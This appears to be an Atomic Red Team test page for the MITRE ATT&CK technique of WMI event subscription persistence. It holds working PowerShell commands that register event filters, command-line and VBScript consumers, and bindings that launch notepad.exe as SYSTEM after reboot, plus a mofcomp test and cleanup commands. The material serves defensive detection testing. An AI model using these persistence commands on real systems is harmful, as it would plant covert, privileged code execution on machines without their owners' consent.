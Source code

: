 ```yaml
---
tags: [T1546_003, atomic_test]
filename: "[[T1546.003|T1546.003 - Event Triggered Execution: Windows Management Instrumentation Event Subscription]]"
---
```


# T1546.003 - Event Triggered Execution: Windows Management Instrumentation Event Subscription
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/003)
<blockquote>Adversaries may establish persistence and elevate privileges by executing malicious content triggered by a Windows Management Instrumentation (WMI) event subscription. WMI can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Examples of events that may be subscribed to are the wall clock time, user loging, or the computer's uptime.(Citation: Mandiant M-Trends 2015)

Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system.(Citation: FireEye WMI SANS 2015)(Citation: FireEye WMI 2015) Adversaries may also compile WMI scripts into Windows Management Object (MOF) files (.mof extension) that can be used to create a malicious subscription.(Citation: Dell WMI Persistence)(Citation: Microsoft MOF May 2018)

WMI subscription execution is proxied by the WMI Provider Host process (WmiPrvSe.exe) and thus may result in elevated SYSTEM privileges.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer](#atomic-test-1---persistence-via-wmi-event-subscription---commandlineeventconsumer)

- [Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer](#atomic-test-2---persistence-via-wmi-event-subscription---activescripteventconsumer)

- [Atomic Test #3 - Windows MOFComp.exe Load MOF File](#atomic-test-3---windows-mofcompexe-load-mof-file)


<br/>

## Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows


**auto_generated_guid:** 3c64f177-28e2-49eb-a799-d767b24dd1e0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
<br/>

## Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mgreen27/ef726db0baac5623dc7f76bfa0fc494c

**Supported Platforms:** Windows


**auto_generated_guid:** fecd0dfd-fb55-45fa-a10b-6250272d0832






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                ScriptingEngine='VBScript';
                ScriptText='
                Set objws = CreateObject("Wscript.Shell")
                objws.Run "notepad.exe", 0, True
                '}
$Consumer=Set-WmiInstance -Namespace "root\subscription" -Class ActiveScriptEventConsumer -Arguments $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = $Filter;
Consumer = $Consumer;
}
$FilterToConsumerBinding = Set-WmiInstance -Namespace 'root/subscription' -Class '__FilterToConsumerBinding' -Arguments $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class ActiveScriptEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
<br/>

## Atomic Test #3 - Windows MOFComp.exe Load MOF File
The following Atomic will utilize MOFComp.exe to load a local MOF file.
The Managed Object Format (MOF) compiler parses a file containing MOF statements and adds the classes and class instances defined in the file to the WMI repository. 
To query for the class:  gwmi __eventfilter -namespace root\subscription
A successful execution will add the class to WMI root namespace.
Reference: https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/ and https://thedfirreport.com/2022/07/11/select-xmrig-from-sqlserver/.

**Supported Platforms:** Windows


**auto_generated_guid:** 29786d7e-8916-4de6-9c55-be7b093b2706





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| mofcomp_path | Location of mofcomp.exe | string | c:&#92;windows&#92;system32&#92;wbem&#92;mofcomp.exe|
| mof_file | Local location MOF file | string | PathToAtomicsFolder&#92;T1546.003&#92;src&#92;T1546.003.mof|


#### Attack Commands: Run with `powershell`! 


```powershell
#{mofcomp_path} "#{mof_file}"
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam_consumer'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam_filter'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```



#### Dependencies:  Run with `powershell`!
##### Description: MofComp.exe must exist on disk at specified location (#{mofcomp_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mofcomp_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
Validate MOFComp.exe is on disk somewhere and update input argument.
```
##### Description: MofComp.exe must exist on disk at specified location (#{mof_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mof_file}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{mof_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.003/src/T1546.003.mof" -OutFile "#{mof_file}"
```




<br/>
